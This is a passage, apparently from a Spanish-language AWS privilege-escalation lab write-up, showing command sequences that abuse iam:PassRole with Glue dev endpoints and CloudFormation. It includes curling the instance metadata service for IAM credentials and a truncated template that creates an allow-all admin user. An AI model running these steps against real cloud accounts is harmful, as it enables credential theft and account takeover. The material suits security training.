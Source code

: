 ```bash
aws sts assume-role --role-arn arn:aws:iam::037572360634:role/privesc18-PassExistingRoleToNewGlueDevEndpoint-role --role-session-name privesc18  

aws sts get-caller-identity --profile privesc18  

aws glue create-dev-endpoint --endpoint-name privesctest --role-arn arn:aws:iam::037572360634:role/privesc-high-priv-service-role --public-key file:///home/hacker/.ssh/id_rsa.pub --profile privesc18  

aws glue get-dev-endpoint --endpoint-name privesctest --profile privesc18  

ssh glue@ec2-18-119-9-156.us-east-2.compute.amazonaws.com -i /home/hacker/.ssh/id_rsa  
```

Dentro de la instancia  
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy  
aws sts get-caller-identity  
```
## PassExistingRoleToCloudFormation  
### Permisos Requeridos: iam:PassRoley cloudformation:CreateStack  

```bash
aws iam list-attached-user-policies --user-name privesc20-PassExistingRoleToCloudFormation-user  

aws iam get-policy-version --policy-arn arn:aws:iam::037572360634:policy/privesc20-PassExistingRoleToCloudFormation --version-id v1  

aws sts assume-role --role-arn arn:aws:iam::037572360634:role/privesc20-PassExistingRoleToCloudFormation-role --role-session-name privesc20  

aws configure --profile privesc20  

aws sts get-caller-identity --profile privesc20  
```

Creamos el archivo IAMCreateUserPlantilla.json  

```json
{
  "Resources": {
    "AdminUser": {
      "Type": "AWS::IAM::User"
    },
    "AdminPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "Description" : "This policy allows all actions on all resources.",
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [
            {
              "Effect": "Allow",
              "Action": [
                "*"
              ],
              "Resource": "*"
            }
          ]
        },
        "Users": [{
          "Ref": "AdminUser"
        }]
```